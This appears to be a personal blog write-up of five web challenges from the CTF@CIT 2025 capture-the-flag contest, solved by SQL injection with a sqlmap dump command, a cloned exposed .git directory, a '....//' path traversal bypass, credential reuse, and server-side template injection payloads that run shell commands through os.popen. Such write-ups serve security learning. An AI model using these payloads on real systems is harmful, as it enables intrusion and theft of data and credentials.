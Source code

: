 ```yaml
---
layout: post
title: CTF@CIT 2025 Web Writeup
categories: [CTF, Writeup]
tags: [web, lfi, sqli, ssti, git]
date: 2025-04-30 05:12 +0900
media_subpath: 'https:////raw.githubusercontent.com/T3l3sc0p3/ctf-writeups/master/CTF%40CIT-2025/'
image:
  path: banner.png
---
```


Recently, I cleared all web challenges in CTF@CIT 2025 and this is my writeup about it. Hope you like it~

## Breaking Authentication (750 pts)

![BreakingAuthentication](Web/img/breakingauthentication.png)

At first, I tried `'OR 1=1;--` and I got an error. So this is definitely **SQL Injection** and it uses **MySQL**

Next, I just need to use `sqlmap` to dump the flag :D

```sh
sqlmap -u 'http://23.179.17.40:58001' --method=POST --data="username=123&password=123&login=Login" --dbs --dump
Database: app
Table: secrets
[1 entry]
+--------+-----------------------+
| name   | value                 |
+--------+-----------------------+
| flag   | CIT{36b0efd6c2ec7132} |
+--------+-----------------------+

Database: app
Table: users
[4 entries]
+---------+----------+--------------+----------+
| email   | fullname | password     | username |
+---------+----------+--------------+----------+
| <blank> | <blank>  | m1n3r41s     | hank     |
| <blank> | <blank>  | 9f3IC3uj9^zZ | admin    |
| <blank> | <blank>  | M4GN375      | jesse    |
| <blank> | <blank>  | b4byb1u3     | walter   |
+---------+----------+--------------+----------+
```

`Flag: CIT{36b0efd6c2ec7132}`

## Commit & Order: Version Control Unit (782 pts)

![CommitOrderVersionControlUnit](Web/img/commitorderversioncontrolunit.png)

As you see in the title and description, this is probably a vulnerability or a problem that related to [git](https://git-scm.com/)

Some devs may forget to exclude `.git` directory when deploying, which can lead to the exposure of the entire source code, creds, authen keys, and more if someone discovers it

First, I tried `http://23.179.17.40:58002/.git/` and I got 403 response. However, this means that the `.git` directory is existed and not properly excluded so I could exploit it :))

Here I used `git-dumper` to clone that repo

```sh
git-dumper http://23.179.17.40:58002/.git/ test
```

Then I checked the changes in the commit using `git diff master <commit-id>` until I reached the commit `68f8fcd`

In this commit, I found this line:

![flag](Web/img/commitorderversioncontrolunit-flag.png)

This is a base64, so I decode it and get the flag

`Flag: CIT{5d81f7743f4bc2ab}`

## How I Parsed your JSON (868 pts)

![HowIParsedyourJSON](Web/img/howiparsedyourjson.png)

This challenge is quite interesting because I was wrong at first. When I saw the **SELECT** query, column, and table, I immediately concluded that it was an **SQL Injection** vulnerability

I tried `/select?record=*&container=employees` and it shows all the information as it was actually dumped, but everything is useless

Next, I changed to `/select?record=*&container[]=employees`, add square brackets to turn it into array. This gives me a bunch of errors and also, leak a part of source code

While analyzing this source code, I saw something that make me doubt about my initial conclusion:

```python
File "/app/app.py", line 18, in select

@app.route('/select')

def select():
    container_name = request.args.get('container')
    record_name = request.args.get('record')
    container_name = clean_container_name(container_name)
                     ^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^
    container_path = os.path.join('containers/', container_name)
    try:
        with open(container_path, 'r') as container_file:
            if record_name == '*':

File "/app/app.py", line 36, in clean_container_name

    return render_template('index.html', data=return_data, container=container_name)

def clean_container_name(n):

    n = os.path.splitext(n)[0]
        ^^^^^^^^^^^^^^^^^^^
    n = n.replace('../', '')
    return n
```

I realized that this is actually not an **SQL Injection** but a **Path Traversal** vulnerability

Look carefully, I saw that it was trying to open a file based on the `container` param and maybe if `record` param is `*`? ¯\_(ツ)_/¯

In `clean_container_name` function, it removes the file extension and also filters out `../`

However, it only removes these once, so we can easily bypass by doubling it like `....//`

Combine all of these, I tested `/select?record=*&container=....//secrets.txt.txt` and I got the flag

![flag](Web/img/howiparsedyourjson-flag.png)

`Flag: CIT{235da65aa6444e27}`

## Keeping Up with the Credentials (970 pts)

![KeepingUpwiththeCredentials](Web/img/keepingupwiththecredentials.png)

In previous web challenges like **Breaking Authentication** and **How I Parsed your JSON**, you may notice that there is a credential show up: `admin:9f3IC3uj9^zZ`

When using this credential to login, it redirects to `/debug.php`. If you see it similar, this is from **Commit & Order: Version Control Unit** challenge

So I tried to visit `/admin.php` and I was logged out

This is a part of `index.php` source code from **Commit & Order: Version Control Unit**:

```php
<?php

session_start();

if (!isset($_SESSION['username'])) {
    $_SESSION['username'] = 'loggedout';
}

if (isset($_POST['username']) && isset($_POST['password'])){

	$username = $_POST['username'];
	$password = $_POST['password'];

    if ($username == 'admin' && $password == '9f3IC3uj9^zZ'){
        $_SESSION['username'] = $username;
        header('Location: /admin.php', true);
        exit();
    }
    else {
        $_SESSION['username'] = $username;
	  $_SESSION['message'] = 'Invalid username or password.';
    }
}
?>
```

You see the code uses a POST request, while the challenge used a GET request. So I used Burp Suite to change the method to POST and then sent the request again

This time, it redirected me to `/admin.php` and I got the flag

`Flag: CIT{7bf610e96ade83db}`

## Mr. Chatbot (973 pts)

![MrChatbot](Web/img/mrchatbot.png)

Initially, when tested some stuffs of this challenge, I thought that it was a very strict **Prompt Injection** vulnerability. However, I realized it was much deeper than that

After enter **admin** or any strings as username, it will generate a JWT session in cookie, which decodes to `{"admin":"0","name":"admin"}`

First, I tried to crack it but no luck, so I add `admin=1` to POST request. However, this made JWT become weirded so I couldn't decode it using normal web tools

Here I used `flask-unsign` to decode it

![decode](Web/img/mrchatbot-flask-unsign.png)

As you can see, there is another base64 inside this one and decode it returns the username that I entered

So I guess that the server probably use a template like `f"{username}"` for both **name** and **uid**

Noticed that the server are using Python, I tried **Server-Side Template Injection (SSTI)** payload on username combine with `admin=1`

This is the payload from [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/Python.md)

```python
{{namespace.__init__.__globals__.os.popen('id').read()}}
```

After that, I take JWT session, decode it and decode the inside base64. And it actually works

Now I just need to `cat secrets.txt` file

```python
{{namespace.__init__.__globals__.os.popen('cat secrets.txt').read()}}
```

![flag](Web/img/mrchatbot-flag.png)

`Flag: CIT{18a7fbedb4f3548f}`

![clear](https://i.imgur.com/sptDLTz.png)
